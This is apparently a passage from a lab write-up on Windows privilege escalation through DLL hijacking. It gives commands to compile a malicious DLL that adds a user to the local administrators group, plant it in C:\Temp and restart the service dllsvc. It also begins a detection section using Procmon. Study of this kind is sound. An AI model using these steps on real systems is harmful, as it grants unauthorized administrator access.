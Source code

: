 > 
> Exploitation
> 
> Windows VM
> 
> 1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows_dll.c’ to the Kali VM.
> 
> Kali VM
> 
> 1. Open windows_dll.c in a text editor and replace the command used by the system() function to: cmd.exe /k net localgroup administrators user /add
> 2. Exit the text editor and compile the file by typing the following in the command prompt: x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
> 3. Copy the generated file hijackme.dll, to the Windows VM.
> 
> Windows VM
> 
> 1. Place hijackme.dll in ‘C:\Temp’.
> 2. Open command prompt and type: sc stop dllsvc & sc start dllsvc
> 3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators


##### Detection
To detect this vulnerability, we must find some missing DLL that some programs look for. To do this, we use **Procmon.exe**:

![Procmon](/assets/img/posts/windows-privesc/task8/task8_procmon.png)
